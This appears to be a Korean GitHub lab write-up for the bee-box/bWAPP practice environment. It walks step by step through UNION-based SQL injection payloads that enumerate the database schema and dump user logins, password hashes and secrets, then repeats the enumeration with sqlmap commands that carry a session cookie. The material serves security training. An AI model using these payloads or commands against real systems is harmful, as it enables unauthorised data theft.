 

# Bee - Box

<center><img src = "https://user-images.githubusercontent.com/76420201/106377985-3783a600-63e4-11eb-924e-731743774575.jpg" width = "70%"></center>
<br>

- 비박스(bee-box)란 웹 어플리케이션에서 자주 발생하는 취약점을 쉽게 테스트할 수 있도록 의도된 환경을 제공한다. 정확한 명칭은 bWAPP이며, 이를 가상머신의 형태로 꾸며놓은 것을 비박스라고 부른다. 
- 취약점 테스팅 서비스는 비박스가 처음으로 등장한 것은 아니며, 대표적으로 DVWA이나 WebGoat(OWASP 프로젝트)와 유사하다. 비박스가 가지는 장점은 실습해볼 수 있는 컨텐츠의 양이 절대적으로 훨씬 더 많다는 것이다. 
- 난이도 조절이 3단계로 가능하므로 조금 더 폭넓은 모의해킹 연습 훈련소로 활용할 수 있다.

<br>

<details markdown="1">
<summary><b>Union SQL Injection</b></summary>
<br>   

```
bWQPP -> SQL Injection(GET/Search)

ID : bee
PW : bug
level : Low

문제: 해당 사이트에서 사용자 정보(이름, 아이디, 패스워드 등)를 탈취하기 
```

---

**Step 1. 기본 동작을 유추**

해당 페이지는 영화 제목을 검색하는 페이지기 때문에 **DB에서 사용자 입력을 키워드로 조회한 결과**를 보여준다.

<center><img src = "https://user-images.githubusercontent.com/76420201/106378432-1c1a9a00-63e8-11eb-924b-c9bdac4f8bfd.gif"></center>

서버 내부 처리(추측)<br>
`select * from movies where title like '%man%'`

---

**Step 2. 인젝션 가능 여부를 확인**

검색란에 작은따옴표`'`를 입력하여 SQL 인젝션이 가능한지 알아본다. 변수에 SQL 인젝션 취약점이 존재하는 경우 SQL오류 메시지를 출력한다.<br>
작은따옴표`'`를 입력하는 이유는 DB에서 `'`로 문자 데이터를 구분하기 때문이다. 따라서 취약점이 존재할 때 `'`를 입력하면 웹 서버에서 DB서버에 질의하는 쿼리에 문법 오류가 발생한다.

서버 내부 처리(추측)<br>
`SELECT * FROM moview WEHRE LIKE ' %man'% '`

<center><img src= "https://user-images.githubusercontent.com/76420201/106378433-1d4bc700-63e8-11eb-960d-4bd979b6dc9b.gif"></center>

오류 메시지에는 DB 서버가 포함되는데, DB서버 종류의 따라 SQL 구문이 다르기 때문에 가장먼서 서버 정보를 확인한다. 오류 메시지를 확인해 보면 해당 DB 서버는 MySQL이라는 정보를 출력하고 있다.

---

**Step 3. UNION 구문을 이용해서 데이터 출력 개수와 위치를 확인**

`or 1=1`이라는 쿼리는 앞 쿼리의 내용과는 상관없이 항상 참이라는 결과를 만드는 쿼리이다. 이 쿼리를 통해서 **어떤 주석 문자를 사용하는지 알아본다**. 맨 마지막에 주석 문자를 붙여주면서 기존 코드의 뒷부분을 주석 처리한다. 

MySQL주석 문자는 `#` 또는 `--`을 사용한다. 따라서 두가지 쿼리를 입력해봐야 한다.
1. `' or 1=1--`
2. `' or 1=1#` 

<center><img src = "https://user-images.githubusercontent.com/76420201/106378861-50dc2080-63eb-11eb-9e03-29994b7f91b3.gif" width = "70%"></center>

첫번째 쿼리에서는 에러가 나고 두번째 쿼리에서 정상적으로 결과가 출력되는걸 확인할 수 있다.

더 자세한 정보를 알아내기 위하여 UNION SELECT 구문을 사용한다. UNION은 SELECT 문이 둘 이상일 때 이를 결합하여 결과를 하나로 반환한다.

두 쿼리의 결과를 하나의 테이블로 합치기 때문에 UNION 구문을 사용하려면 이전 쿼리에서 사용하는 **SELECT 문의 칼럼 수를 일치** 시켜줘야 한다. 칼럼의 수가 일치하지 않는경우 오류 메시지가 나오고, 오류 메시지가 나오지 않을 때까지 칼럼 수를 늘려가며 확인한다.

`' UNION SELECT  1,2,3,4,5#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106379433-59cef100-63ef-11eb-8937-fc0ad93e4445.gif"></center>
<br>

`' UNION SELECT  1,2,3,4,5,6,7#`<br>
칼럼수가 7개가 될 때 정상적으로 결과를 출력한다. 또한 `1,2,3,4,5,6,7`로 입력 하였을때 `2, 3, 5, 4`칼럼의 값만 출력되는 것을 확인할 수 있다.

<center><img src = "https://user-images.githubusercontent.com/76420201/106379432-589dc400-63ef-11eb-8b33-ee22c1813be0.gif" width = "70%"></center>

---

**Step 4. UNION 구문을 이용해서 데이터베이스 정보를 조회**

MySQL 버전을 확인하기 위해서 시스템 변수나 시스템 함수를 활용하여 쿼리를 입력한다.

`' UNION SELECT 1, @@version, 3, 4, 5, 6, 7#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106381745-52fbaa80-63fe-11eb-9503-cf5ac7de52d3.gif" width = "70%"></center>
<br>

- SQL 인젝션으로 데이터베이서의 정보를 파악할 수 있는 변수와 함수

| 시스템 변수 및 함수 | 설명 |
|-------------------|------|
| databases() | 데이터베이스 명을 알려주는 함수|
| user() | 현자 사용자의 아이디 |
| system_user() | 최고 권한 사용자의 아이디 |
| @@version | 데이터베이스 서버의 버전 |
| @@datadir | 데이터베이스 서버가 존재하는 디렉터리 |

---

**Step 5. DB 정보 확인**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html)

<center><img src = "https://user-images.githubusercontent.com/76420201/106382105-bbe42200-6400-11eb-8b4d-8e071a2982ec.gif" width = "80%"></center>

MySQL 공식 문서를 참고해보면 information_schema.schemata은 데이터베이스들의 정보를 제공해줍니다. 그중 SCEMA_NAME이라는 컬럼은 schema의 name값을 가지고 있다는 것을 알 수 있습니다.

<br>

`' UNION SELECT 1,SCHEMA_NAME, 3, 4, 5, 6, 7 from information_schema.schemata#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106382451-0f576f80-6403-11eb-988d-3b7a5f36f556.gif" width = "80%"></center>

SQL 인젝션 결과 데이터베이스 서버에 존재하는 모든 데이터베이스 명을 출력했습니다.

---

**Step 6. Table 정보 확인**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html)

- where 절을 이용해서 필요한 테이블만 별도로 추출<br>
`' UNION select 1, TABLE_SCHEMA, TABLE_NAME, 4, 5, 6, 7 from information_schema.tables where table_schema = 'bWAPP' # %'`

- 불필요한 정보를 쿼리 실행 결과에 포함되지 않도록 쿼리를 수정<br>
`' and 1 = 2 UNION select 1, TABLE_SCHEMA, TABLE_NAME, 4, 5, 6, 7 from information_schema.tables where table_schema = 'bWAPP' #` 

<center><img src = "https://user-images.githubusercontent.com/76420201/106382834-7b3ad780-6405-11eb-98b6-cd6a9d131a6b.gif" width = "70%"></center>

출력된 테이블 명 중 users 테이블에 사용자의 계정 정보가 들어있다고 추측할 수 있습니다. users table의 정보를 출력해봅니다.

---

**Step 7. users 테이블의 정보를 조회**

[https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html)

`' and 1 = 2 UNION select 1, TABLE_SCHEMA, TABLE_NAME, COLUMN_NAME, 5, 6, 7 from information_schema.columns where table_schema = 'bWAPP' and table_name = 'users' #`

<center><img src = "https://user-images.githubusercontent.com/76420201/106383003-804c5680-6406-11eb-931d-273a10b9b4de.gif" width = "80%"></center>

칼럼 내용을 확인하려면 페이지에 노출되는 칼럼 순서에 맞춰 확인하고 싶은 칼럼명을 입력한다. 페이지에 노출된 칼럼 수보다 확인하려는 칼럼 수가 많을 때는 concat 함수를 사용하여 칼럼 명을 인자로 입력하면 여러 칼럼의 내용을 볼 수 있습니다.

`' and 1 = 2 UNION SELECT 1, concat(id, login), password, email, secret, 6, 7 from users#`

<center><img src = "https://user-images.githubusercontent.com/76420201/106383165-a58d9480-6407-11eb-9628-ac96f0a4bfee.gif" width = "80%"></center>

SQL 인젝션 후 웹 브라우저에서 데이터베이스에 저장된 users 테이블 칼럼의 내용이 확인 가능하다. 그 중 password 칼럼에는 비밀번호의 해시값을 저장한다.

</details>

---

<details markdown="1">
<summary><b>sqlmap을 이용한 공격
</b></summary>
<br>   

전체적인 로직은 위와 같음.

**Step 1. 사용법**
`sqlmap -u [SQL Injection 취약점이 존재하는 페이지의 주소] --cookie = [인증을 전제하는 경우에 SESSIONID가 포함된 쿠키값]`

- 페이지 주소 : http://bee-box/bWAPP/sqli_1.php?title=man&action=search

- cookie 값 :

브라우저 개발도구(F12)의 Storage 확인
![sqlmap1](https://user-images.githubusercontent.com/76420201/106384529-aa097b80-640e-11eb-91c2-17fa5d13baf7.gif)
PHPSESSID = fc13d1925d717ec8ff2ec1f6e6182f34<br>
security_level = 0

---

**Step 2. SQL Injection 공격 가능 여부 확인**

```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0"
```

<center><img src = "https://user-images.githubusercontent.com/76420201/106384672-6d8a4f80-640f-11eb-992a-3b0a7db2a87b.gif" width = "100%"></center>

---

**Step 3. DB 정보 확인**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" --dbs
```

![sqlmap3](https://user-images.githubusercontent.com/76420201/106386065-88ac8d80-6416-11eb-98e2-7c561cb7fe1a.gif)

---

**Step 4. bWAPP 테이블 목록 확인**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" -D bWAPP --tables
```

![sqlmap4](https://user-images.githubusercontent.com/76420201/106386066-89ddba80-6416-11eb-9234-989108405092.gif)

---

**Step 5. Users 테이블 칼럼 정보 조회**
```
┌──(kali㉿kali)-[~]
└─$ sudo sqlmap -u "http://bee-box/bWAPP/sqli_1.php?title=man&action=search" \
--cookie="PHPSESSID=fc13d1925d717ec8ff2ec1f6e6182f34; security_level=0" -D bWAPP -T users --columns
```

![sqlmap5](https://user-images.githubusercontent.com/76420201/106386243-6c5d2080-6417-11eb-9130-6bc277387ddc.gif)

</details>

Security Level을 올리게 되면 SQL Injection 공격이 통하지 않음